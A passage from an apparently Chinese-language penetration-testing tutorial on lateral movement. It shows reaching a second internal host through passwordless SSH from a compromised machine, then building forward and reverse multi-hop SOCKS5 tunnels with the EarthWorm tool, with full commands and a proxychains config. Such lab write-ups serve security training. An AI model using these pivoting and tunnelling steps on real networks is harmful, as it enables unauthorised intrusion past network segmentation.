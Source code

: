 **注意：由于proxychains无法代理icmp的数据包，要加上禁ping参数-Pn（不检测主机是否存活，直接进行端口tcp扫描）**

扫描结果发现仅能抵达10.2段内网机器V2-10.10.2.111，开放了22以及其他端口

尝试对V2进行渗透，在V1上发现已设置了V2的免密登录，在之前V1反弹的shell中用ssh成功登录到V2。

### 场景二：把流量代理到V2，进行进一步信息收集[](#场景二：把流量代理到v2，进行进一步信息收集)

现已获得V2的shell，检查发现V2不通公网，无法反向代理公网流量，需要通过V1进行多级代理。接下来将流量代理到V2上进行进一步探测。

这里同样有两种方式：**正向代理**和**反向代理**。

**正向代理：**

假设目标机V1有公网IP（139.x.x.x），可以使用正向的方式代理流量。

在目标机V2上启动socks5代理并监听9999端口：

```bash
./ew -s ssocksd -l 9999

```

在V1上启动流量转发，将V1的1080端口与V2的9999端口绑定，建立socks5通道：

```bash
./ew -s lcx_tran -l 1080 -f 10.10.2.111 -g 9999

```

接着流量代理到139.x.x.x的1080端口，就相当于把流量代理到目标机V2上了。

A1上proxychains代理配置：

```bash
[ProxyList]
socks5    139.x.x.x    1080

```

**反向代理：**

在攻击机A1本地启动流量转发，将来自外部1080端口的流量转发到本地8888端口，并等待目标反弹连接：

```bash
./ew -s lcx_listen -l 1080 -e 8888

```

传输ew到V2上，在V2启动socks5代理并监听9999端口：

```bash
./ew -s ssocksd -l 9999

```

最后在V1执行，将A1的8888端口与V2的9999端口绑定，建立socks5通道：

```bash
./ew -s lcx_slave -d 120.x.x.x -e 8888 -f 10.10.2.111 -g 9999

```
